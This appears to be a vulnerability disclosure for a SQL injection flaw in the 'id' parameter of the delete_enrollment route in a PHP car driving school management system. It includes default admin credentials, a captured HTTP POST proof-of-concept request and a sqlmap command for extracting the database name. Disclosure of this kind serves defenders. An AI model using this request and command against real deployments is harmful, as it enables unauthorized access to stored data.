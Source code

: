 ### SQL injection vulnerability exists in Sourcecodester Car Driving School Management System

official website:https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

version:v1.0

route:/cdsms/classes/Master.php?f=delete_enrollment

related code file:Master.php

injection parameter:${'id'}

#### 1.Vulnerability analysis

After receiving the id parameter passed in through the get method in the Master.php file, it is directly spliced into the SQL query statement for execution without any security filtering. An attacker can use this parameter to perform SQL injection to read arbitrary database information.

![image-20240725213022573](assets/image-20240725213022573.png)

#### 2.Vulnerability verification and exploit

After admin/admin123 logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.Note that you need to modify the deployed IP address, port, and cookie information in the data packet according to the environment.

```
POST /cdsms/classes/Master.php?f=delete_enrollment HTTP/1.1
Host: localhost
Content-Length: 4
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/cdsms/admin/?page=enrollees
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1721700678; PHPSESSID=32r6u9afm833p0abeg632sl4id
Connection: close

id=5
```

python sqlmap.py -r 1.txt --batch --current-db

![image-20240725212944403](assets/image-20240725212944403.png)

Successfully obtained the injected payload and database name.